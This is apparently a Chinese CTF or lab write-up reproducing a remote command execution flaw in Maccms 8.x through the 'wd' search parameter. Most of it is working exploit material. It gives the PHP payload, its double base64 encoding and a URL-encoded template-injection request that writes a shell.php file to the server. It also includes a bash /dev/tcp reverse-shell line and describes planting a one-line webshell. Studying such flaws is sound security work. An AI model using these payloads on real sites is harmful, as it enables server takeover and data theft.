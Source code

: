 ## 1. 漏洞介绍

Maccms是一套跨平台的基于PHP和MySQL快速建站系统。 Maccms 8.x版本中存在安全漏洞。远程攻击者可借助index.php?m=vod-search请求中的‘wd’参数利用该漏洞执行命令。

[Maccms8.x 远程命令执行漏洞分析 - yunying - 博客园](https://www.cnblogs.com/BOHB-yunying/p/13655030.html)

## 2. 漏洞复现

直接读取 flag

shell.php

```php
<?php passthru('cat /flag'); phpinfo();?> 1
```

两次base64编码后

```
UEQ5d2FIQWdjR0Z6YzNSb2NuVW9KMk5oZENBdlpteGhaeWNwT3lCd2FIQnBibVp2S0NrN1B6NGdNUT09
```

**注**，为啥要两次base64编码，待调试分析【后补】，经测试发现编码后有 = 不能成功！

写个shell.php【文件名base64编码后c2hlbGwucGhw】

```python
wd={if-A:print(fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(base64_decode(UEQ5d2FIQWdjR0Z6YzNSb2NuVW9KMk5oZENBdlpteGhaeWNwT3lCd2FIQnBibVp2S0NrN1B6NGdNUT09))))}{endif-A}
```

POST提交时先url编码下，即

```python
wd=%7Bif-A:print(fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(base64_decode(UEQ5d2FIQWdjR0Z6YzNSb2NuVW9KMk5oZENBdlpteGhaeWNwT3lCd2FIQnBibVp2S0NrN1B6NGdNUT09))))%7D%7Bendif-A%7D
```

访问 shell.php

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312160117450.png)

尝试写个下面的反弹 shell，成功不了，写了个一句话木马，用蚁剑在终端试了下是执行sh用的是/bin/dash，进一步尝试用 ln 指向 /bin/bash，奈何权限不足，虽然服务端也有nc，但由于版本关系没有 `-e` ……

```php
<?php system("bash -i >& /dev/tcp/ip/port 0>&1");?>
```
